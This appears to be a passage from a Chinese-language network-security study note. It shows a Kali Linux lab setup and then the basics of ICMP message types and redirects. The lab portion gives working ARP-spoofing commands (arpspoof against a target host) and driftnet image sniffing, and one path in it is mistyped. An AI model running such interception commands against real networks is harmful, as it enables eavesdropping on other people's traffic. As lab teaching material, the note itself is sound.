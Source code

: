 3、实施攻击

一、环境

1、kali linux

- 攻击工具：arpspoof

2、win10

- 被攻击主机

二、kali配置

kali linux基于debian linux系统，采用deb包管理方式，使用apt源方式进行安装

```
echo 1 >> /procsys/net/ipv4/ip_forward	#将”1“追加到后面这个文件中，开启ip转发功能，">" 表示覆盖加，">>"表示追加。	”0“表示关闭该功能

apt-get install dsniff	#安装arp攻击工具，arpspoof工具集成在其中
arpspoof -i eth0 -t 192.168.10.11 192.168.10.2	#攻击命令

driftnet 	#嗅探被攻击者网页浏览中的图像内容
```





#### ICMP协议（网络层）

1、理解ICMP协议

2、理解ICMP重定向

3、会使用wireshark分析ICMP重定向流量

实验

一、ICMP基本概念

1、ICMP协议

- internet控制报文协议，用于在ip主机、路由器间传递控制消息，控制消息指网络通不通，主机是否可达，路由器是否可用等 
- 网络层协议，封装在网络层与传输层之间

![image-20221019232142585](C:\Users\21019\OneDrive - lotosac\文档\Web Security\EnjoyのStudy~\Pictures\image-20221019232142585.png)



2、ICMP报文格式

- 类型（type）

- 代码（code）

  - （8   0）：请求报文
  - （0   0）：回显应答（比较正常的应答）
  - （11   0）：请求超时（传输期间生存时间为0）
  - （3   1）：目标主机不可达
  - （3   3）：目标端口不可达
  - （3   2）：目标协议不可达
  - 类型13   14报文   时间戳请求和应答
  - 共有0/3~18  18种类型
  - （5    0）   重定向（网络重定向）
  - （5    1）   重定向（主机重定向）
